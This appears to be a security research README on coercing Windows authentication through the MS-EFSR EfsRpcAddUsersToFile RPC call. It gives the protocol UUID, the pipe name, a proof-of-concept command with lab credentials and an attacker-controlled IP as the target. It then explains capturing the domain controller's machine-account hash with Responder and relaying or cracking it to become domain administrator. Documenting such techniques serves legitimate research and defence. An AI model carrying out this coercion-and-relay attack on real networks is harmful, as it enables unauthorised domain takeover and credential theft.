 # MS-EFSR - Remote call to EfsRpcAddUsersToFile (opnum 9)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

 - **Protocol version**: 1.0

 - **SMB Named pipe**: `\pipe\efsrpc`

 - **Function name**: [`EfsRpcAddUsersToFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/afd56d24-3732-4477-b5cf-44cc33848d85)

 - **Function operation number**: `9`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\efsrpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\efsrpc` This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. We will then call the remote [`EfsRpcAddUsersToFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/afd56d24-3732-4477-b5cf-44cc33848d85) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcAddUsersToFile('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD EfsRpcAddUsersToFile(
   [in] handle_t binding_h,
   [in, string] wchar_t* FileName,
   [in] ENCRYPTION_CERTIFICATE_LIST* EncryptionCertificates
 );
```

## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31

 - Documentation of function `EfsRpcAddUsersToFile`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/afd56d24-3732-4477-b5cf-44cc33848d85